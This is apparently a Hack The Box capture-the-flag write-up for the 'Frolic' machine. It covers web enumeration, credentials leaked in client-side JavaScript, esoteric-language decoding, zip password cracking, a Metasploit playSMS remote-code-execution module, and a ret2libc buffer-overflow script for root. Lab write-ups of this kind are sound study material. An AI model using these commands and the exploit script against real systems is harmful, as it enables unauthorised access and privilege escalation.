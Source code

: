 # writeup

## FROLIC

frolic was a great box that involved a decent amount of binary exploitation\(im not the best at this so if you want a more in depth explanantion i suggest looking at other writeups, im just doing this so i have a record to look back at.\)

> Skills involved in this box:
>
> * enumeration 
> * A bit of crypto 
> * metasploit
> * binary exploitation

## USER

After running an nmap scan we can see that there is quite a few ports open but the main ones that we need are 9999. There is jsut a welcome message for nginx on the main page so we use dirbuster to search for directories, We use a few searches so i will just list all the interesting things that i found:

```text
/admin
/backup
/dev
/test
/dev/backup/playsms
```

Taking a look at `/admin` We can see that it is a login page. We look into the source code of the site and find `login.js`:

```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```

One line sticks out the most and that is the `if ( username == "admin" && password == "superduperlooperpassword_lol"){` So now we have some creds, `admin:superduperlooperpassword_lol` we login to the login page and get met buy another site.

```text
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```

This is a ciphertext for an langauge called Ook! we find an online decoder for it\(i used dcode.fr\) We get teh output:

```text
Nothing here check /asdiSIAJJ0QWE9JAS
```

So we check that directory and we find a long base64 string:

```text
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwABBAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbsK1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmveEMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTjlurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkCAAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBPAAAAAwEAAAAA
```

Decoding this gives a weird output to we decide to decode it into a zip file. `base64 -d base64.txt > file.zip` Trying to unzip it shows us that it is password protected so we find a tool that can get us the password from it. We find a tool called fcrackzip that will do the trick.

```text
fcrackzip file.zip -u -D -p /usr/share/wordlists/rockyou.txt
```

After unzipping that we get a file called index.php that contains a long hex string. We decode this from hex and get a base64 string. After decoding that we get a string that appears to be in the language "brainfuck":

```text
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```

Of course we use an online decoder to translate this into english and it ourputs `idkwhatispass` We can only assume that this is the password for the playsms page. We login on playsms with `admin:idkwhatispass` We spend a while searching for exploits to gain us a shell, we come accross a metasploit module using searchsploit that will do the trick. Its called `exploit/multi/http/playsms_uploadcsv_exec` We set the appropriate options:

```text
set password idkwhatispass
set rport 9999
set rhosts 10.10.10.111
set targeturi /playsms
set lhost {your tun0 ip}
exploit
```

We now get a shell as www-data and manage to read the user flag.

## ROOT

We find an SUID binary in /home/ayush/.binary, its called rop we run it to see what it does, basically it just takes our input and outputs it. We do:

```text
./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

And we see that it returns a seg fault so we have a buffer overflow vulnerability. We are going to do a ret2libc attack. GDB is not installed on the box so we download a static version and then upload it via a metpreter session. Theses are the exploitation steps:

```text
on our box: 
gdb-peda$ pattern_create -l 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb rop
break *main
run AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
c
we get an address below the line that says segfault.
gdb-peda$ pattern_offset -q address_we_got
we will get an offset of 52
```

This shows us that the buffer overflows at 52 chars Now we need to get all the addresses so we will start with finding the /bin/sh in libc

```text
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)    
        /lib/ld-linux.so.2 (0xb7fdb000)

www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
Also in gdb we do "p system" and "p exit" to find the addresses for system and exit
```

So now we have all our addresses:

```text
libc = 0xb7e19000
offset = 0x0015ba0b
/bin/sh = libc + offset = 0xb7f74a0b
system = 0xb7e53da0
exit = 0xb7e479d0
```

Now we have everything we need lets construct our script

```python
#!/usr/bin/python

import struct

buf = "A" * 52
system = struct.pack("I" ,0xb7e53da0)
exit = struct.pack("I" ,0xb7e479d0)
shell = struct.pack("I" ,0xb7f74a0b)
print buf + system + exit + shell
```

Then we simply run This command to exploit the binary and get a root shell and read the root flag:

```text
./rop `python /tmp/exploit.py`
```

Thanks for reading and if you enjoyed make sure to check out my profile at [https://www.hackthebox.eu/home/users/profile/246314](https://www.hackthebox.eu/home/users/profile/246314)

